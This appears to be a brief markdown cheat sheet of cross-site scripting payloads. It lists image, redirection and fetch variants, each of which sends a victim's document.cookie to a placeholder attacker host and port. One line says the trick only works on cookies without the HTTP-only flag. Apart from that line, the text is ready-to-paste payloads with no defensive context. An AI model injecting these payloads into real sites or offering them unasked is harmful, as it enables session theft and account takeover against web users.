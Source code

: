 #xss

This will only work on that cookies that have not the `HTTP-only` flag set.

## Image
```js
<img src=x onerror=this.src='[ATTACKER_IP]:[ATTACKER_PORT]/?cookie='+document.cookie>
```

## Redirection

```js
<script>document.location.replace('http://[ATTACKER_IP]:[ATTACKER_PORT]/?cookie='+document.cookie)</script>
```

```js
<script>window.location('http://[ATTACKER_IP]:[ATTACKER_PORT]/?cookie='+document.cookie)</script>
```

## Fetch
```js
<script>fetch('[ATTACKER_IP]:[ATTACKER_PORT]?cookie=' + btoa(document.cookie) );</script>
```

